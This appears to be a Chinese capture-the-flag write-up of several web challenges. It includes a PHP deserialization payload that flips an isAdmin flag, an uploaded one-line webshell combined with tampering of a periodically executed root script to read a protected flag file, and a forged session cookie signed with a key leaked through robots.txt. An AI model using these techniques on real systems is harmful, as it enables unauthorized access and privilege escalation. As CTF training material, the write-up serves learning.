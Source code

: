 ```php
class User {
    public $username;
    public $isAdmin = false;

    public function __construct($username) {
        $this->username = $username;
    }

    public function __wakeup() {
        if ($this->isAdmin) {
            echo "Welcome, admin! Here's your flag: " . (new Flag())->getFlag();
        } else {
            echo "Hello, " . htmlspecialchars($this->username) . "!";
        }
    }
}
```
我们只要修改`$isAdmin`的值为`true`即可，exp如下：    
```php
$pop=new User('shone');
$pop->isAdmin=true;
echo serialize($pop);
```
payload: `?data=O:4:"User":2:{s:8:"username";s:5:"shone";s:7:"isAdmin";b:1;}`,传入得到flag    
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241112221012.png)  
### 小蓝鲨的临时存储室
本题是文件上传，尝试上传一句话代码，成功上传了题目并没有过滤`php`文件     
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241112222345.png)   
用蚁剑连接发现，根目录下的`/start.sh`会把环境变量里的flag写入`flag`文件，但我们的权限不能访问,同时发现我们的木马过一会就会丢失连接    
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241112222440.png)      
根目录下找到另一个文件`/down_file.sh`，它会删除上传目录下的`.php`后缀文件，并且此文件我们有写入权限所以先把这句话注释掉    
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241112222247.png)    
此文件应该是过一会就执行一次，才导致我们的一句话木马过一会就会丢失连接，所以我们可以在这个文件内写入一些命令来读取flag，把flag写入我们有权限访问的文件  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241112223703.png)  
等待shell自动运行，即可获得flag    
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241112223601.png)  
### 小蓝鲨的故事
根据提示在`robots.txt`里找到一个key:`2M1r7U8d`        
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241113165140.png)    
使用这个key可以解密session       
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241113165518.png)      
用`7kbscan`进行目录扫描没有效果，手动尝试了很多路由最后试出来`/Hacker`可以访问   
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241113165712.png)     
还是没什么线索，找了几个字典进行目录扫描，最后扫出来了`/flag`      
访问`/flag`有如下提示:    
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241113170021.png)   
估计与session有关，联想到`/Hacker`页面的`Welcome ISctf_Hacker PAGE`,猜测username应该是`ISctf_Hacker`,重新加密session    
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241113170001.png)    
```
eyJ1c2VybmFtZSI6eyIgYiI6IlNWTmpkR1pmU0dGamEyVnkifX0.ZzRqhw.2Syu0PyXWJpzG-czyKPA4WlwGig
```
传入得到flag    
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241113170338.png)   
### 千年樱@未解出